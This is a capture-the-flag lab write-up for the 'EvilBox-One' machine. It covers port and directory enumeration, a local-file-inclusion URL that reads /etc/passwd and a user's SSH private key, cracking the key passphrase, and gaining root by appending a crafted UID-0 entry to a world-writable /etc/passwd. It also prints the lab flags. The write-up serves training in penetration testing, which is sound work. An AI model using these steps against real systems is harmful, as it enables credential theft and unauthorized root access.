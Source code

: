 ```yaml
---
title: EvilBox-One
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, passwd]
image:
  path: https://rotnemzero.com/wp-content/uploads/2023/07/featured-3.jpg
  alt:  EvilBox-One Machine 🖥️
---
```




### Lets find out the IP of this Machine First ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled.png)

```bash
IP : 10.10.2.51
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/EvilBox-One]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.51
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 16:54 IST
Nmap scan report for 10.0.2.51
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:94:F8:26 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%201.png)

Now lets see the Directory Listing files —>

```bash
feroxbuster -u http://10.0.2.51:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,js
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%202.png)

Now lets look at `/secret/evil.php` file —>

Since it is blank I think this url is vulnerable to directory traversal attack , but for that I need a parameter on which basis I am gona search the `/etc/passwd` file —>   

Lets use burpsuite for that —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%203.png)

parameter fuzzing list ⤵️

[https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt](https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt)

Lets see the result on web —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%204.png)

Now I know user mowree so lets access for ssh private key through `/home/mowree/.ssh/id_rsa` →

[http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa](http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%205.png)

Lets get this file and decode its paraphrase value through john-the-ripper tool →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%207.png)

so the paraphrase for ssh login is : `unicorn`

Now its time for ssh login →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%208.png)

Lets check what we got here →

```bash
mowree@EvilBoxOne:~$ ls -al
total 32
drwxr-xr-x 4 mowree mowree 4096 ago 16  2021 .
drwxr-xr-x 3 root   root   4096 ago 16  2021 ..
lrwxrwxrwx 1 root   root      9 ago 16  2021 .bash_history -> /dev/null
-rwxr-xr-x 1 mowree mowree  220 ago 16  2021 .bash_logout
-rwxr-xr-x 1 mowree mowree 3526 ago 16  2021 .bashrc
drwxr-xr-x 3 mowree mowree 4096 ago 16  2021 .local
-rwxr-xr-x 1 mowree mowree  807 ago 16  2021 .profile
drwxr-xr-x 2 mowree mowree 4096 ago 16  2021 .ssh
-r-------- 1 mowree mowree   31 ago 16  2021 user.txt
mowree@EvilBoxOne:~$ cat user.txt 
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
mowree@EvilBoxOne:~$
```
{: .nolineno}

Now lets see some file permissions and looks like I got something interesting →

```bash
mowree@EvilBoxOne:/var/backups$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```
{: .nolineno}

Now I have the permission to write so lets add a user name as `shiv` and `password` as password with root privileges.

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```
{: .nolineno}

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```
{: .nolineno}

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%209.png)

Now lets switch to shiv user —>

```bash
mowree@EvilBoxOne:~$ su shiv
Contraseña: 
root@EvilBoxOne:/home/mowree# whoami
root
root@EvilBoxOne:/home/mowree# cd ~
root@EvilBoxOne:~# ls -al
total 24
drwx------  3 root root 4096 ago 16  2021 .
drwxr-xr-x 18 root root 4096 ago 16  2021 ..
lrwxrwxrwx  1 root root    9 ago 16  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ago 16  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 16  2021 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   31 ago 16  2021 root.txt
root@EvilBoxOne:~# cat root.txt 
36QtXfdJWvdC0VavlPIApUbDlqTsBM
root@EvilBoxOne:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }